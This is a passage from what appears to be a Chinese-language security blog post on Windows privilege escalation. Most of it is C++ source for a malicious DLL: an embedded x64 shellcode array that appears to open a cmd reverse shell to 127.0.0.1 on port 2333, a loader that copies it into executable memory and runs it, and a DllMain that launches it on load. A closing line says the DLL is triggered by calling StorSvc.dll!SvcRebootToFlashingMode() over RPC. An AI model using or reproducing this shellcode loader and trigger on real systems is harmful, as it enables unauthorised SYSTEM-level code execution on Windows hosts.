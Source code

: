 ```c++
        "\x49\x89\xe5\x49\xbc\x02\x00\x09\x1d\x7f\x00\x00\x01\x41\x54"
        "\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
        "\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
        "\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
        "\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
        "\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
        "\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
        "\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
        "\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
        "\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
        "\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
        "\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
        "\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
        "\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
        "\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
        "\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

	void* exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();
	return 0;
}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    HANDLE hThread = NULL;
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        DisableThreadLibraryCalls(hModule);
        hThread = CreateThread(NULL, 0, DoMagic, 0, 0, 0);
        if (hThread) {
            CloseHandle(hThread);
        }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

再创建另一个项目，通过 RPC 调用 `StorSvc.dll!SvcRebootToFlashingMode()` 方法，主要代码如下。关于如何调用 RPC 可以阅读我这篇博客：“[*PetitPotato - How Do I Escalate To SYSTEM Via Named Pipe*](https://whoamianony.top/posts/petitpotato-how-do-I-escalate-to-system-via-named-pipe/)”。

- RpcClient.exe
